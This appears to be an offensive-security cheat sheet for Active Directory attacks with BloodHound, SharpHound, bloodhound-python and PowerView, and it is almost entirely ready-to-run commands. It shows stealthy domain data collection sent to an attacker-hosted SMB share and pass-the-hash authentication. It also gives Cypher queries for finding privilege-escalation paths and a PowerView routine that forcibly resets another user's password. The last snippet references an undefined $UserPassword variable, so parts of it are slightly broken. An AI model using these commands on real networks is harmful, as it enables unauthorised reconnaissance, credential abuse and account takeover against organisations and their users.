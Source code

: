 # BloodHound

#### Data collection

```powershell
# Get all
SharpHound.exe -All

# DC Only
SharpHound.exe -DCOnly

# Computer only
SharpHound.exe -ComputerOnly

# Save to smbshare
sudo impacket-smbserver share ./ -smb2support -user zen -password zen
SharpHound.exe --memcache --outputdirectory \\10.10.11.10\share\ --zippassword ZenSharp --outputprefix ZEN --randomfilenames

# LDAP auth
SharpHound.exe -All --ldappassword zenpass --ldapusername zen
```

#### Other usefull flags

| Flag                | Description               |
| ------------------- | ------------------------- |
| `--randomfilenames` | Random files names output |
| `--outputdirectory` | Output directory          |
| `--zipfilename`     | Filename for zip          |
| `--zippassword`     | Password zip              |

#### Session loops

To see where users are connected we can use loops so SharpHound can find active sessions of users.

| Flag             | Description                     |
| ---------------- | ------------------------------- |
| `--loop`         | Loop computer collection        |
| `--loopduration` | Loop duration                   |
| `--loopinterval` | Sleep interval                  |
| `--stealth`      | Only check systems to have data |

```powershell
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00
```

#### Data collection from Linux

```bash
# Using hash
bloodhound-python -u 'admin' -p zen123 -d zencorp.local -ns 172.16.1.5 -c All

# Using hash
bloodhound-python -u 'admin' --hashes b18733e57ca3786565914d7136e0e79a -d zen.local -ns 172.16.1.5 -c All

# Using kerberos authentication
bloodhound-python -d zencorp.local -c DCOnly -u zen -p zen123 -ns 10.129.204.111 -k 
```

#### Queries

```powershell
# Search user
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"}) RETURN u
MATCH (u:User) WHERE u.name = "JOE@ZENCORP.LOCAL" RETURN u

# Get Group memberships
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(joeGroups) 
RETURN joeGroups

# MemberOf Relationship
MATCH p=((n:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(g:Group)) 
RETURN p

# MemberOf Relationship depth 1..* (1 -any)
MATCH p=((u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p

# Find path group name Help Desk
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'HELPDESK'
RETURN p

# Find path group name Help Desk using =~
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)helpdesk.*'
RETURN p

# ShortestPath from node that contains john to any node
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)john.*' AND NOT c=n 
RETURN p

# Find rights domain user should not have
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer) 
WHERE g.name STARTS WITH "DOMAIN USERS" 
RETURN p

# Find all users with desriptions
MATCH (u:User) 
WHERE u.description IS NOT NULL 
RETURN u.name,u.description

# Find WriteSPN
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

#### Cheatsheets

[https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12](https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12)[https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

#### ForceChangePassword

```powershell
# Use powerview
Import-Module .\PowerView.ps1

# Save password
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('ZENCORP\john', $SecPassword)

# Change password
Set-DomainUserPassword -Identity steven -AccountPassword $UserPassword -Credential $Cred -Verbose
```
